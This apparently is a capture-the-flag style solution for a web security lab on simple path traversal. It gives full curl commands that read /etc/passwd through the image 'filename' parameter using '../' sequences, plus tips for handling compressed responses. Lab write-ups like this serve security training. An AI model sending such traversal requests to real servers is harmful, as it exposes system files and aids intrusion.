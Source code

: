 # Lab: File path traversal, simple case

## Lab Description
This lab contains a **path traversal vulnerability in the display of product images**.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

## Lab Solution

We open the page in `dev mode` and see there are 3 types of relative URL paths in the code:
- First type pointing directly to the resource
- Second type with query parameter `filename`
- Third type with query parameter `productID`

Note: If you copy the command as curl

`Accept-Encoding: gzip, deflate, br` rules how things will be downloaded from the server.


If `Copy as curl command (bash)` is used it copies the request in following way.


```
curl -i -s -k -X $'GET' \
    -H $'Host: 0abf0096033c0eca80fadfba00360066.web-security-academy.net' -H $'Sec-Ch-Ua: \"Chromium\";v=\"117\", \"Not;A=Brand\";v=\"8\"' -H $'Sec-Ch-Ua-Mobile: ?0' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36' -H $'Sec-Ch-Ua-Platform: \"Linux\"' -H $'Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: no-cors' -H $'Sec-Fetch-Dest: image' -H $'Referer: https://0abf0096033c0eca80fadfba00360066.web-security-academy.net/' -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: en-US,en;q=0.9' \
    -b $'session=sBeE3fEhx4nSuCUZYaImFOdcncS92EsG' \
    $'https://0abf0096033c0eca80fadfba00360066.web-security-academy.net/image?filename=../../../../etc/passwd'
```

Most of the time, this will yield no results due to the compression.
Two options are viable:
- Delete header `$'Accept-Encoding: gzip, deflate, br'`
- Append flag `--compressed`; this allows to automatically decompress HTTP response if the compression in use is one of the algorithms `curl` supports.

#### Alternative:

Possible to pipe the result to `gzip -d` to get decompressed result, however, the flag `-i` or `--include`, which includes HTTP response headers in the output. This disable possibility to decompress with `gzip`.

```
curl 'https://0a3e00d60391d47d8045a3fd005b00ef.web-security-academy.net/image?filename=../../../etc/passwd' \
  -H 'authority: 0a3e00d60391d47d8045a3fd005b00ef.web-security-academy.net' \
  -H 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'accept-language: en-US,en;q=0.9' \
  -H 'cookie: session=ciUxesTOw5cfzikNAIome0NNvhD64svz' \
  -H 'sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Linux"' \
  -H 'sec-fetch-dest: document' \
  -H 'sec-fetch-mode: navigate' \
  -H 'sec-fetch-site: none' \
  -H 'sec-fetch-user: ?1' \
  -H 'upgrade-insecure-requests: 1' \
  -H 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36' \
  --compressed \
  --insecure
```
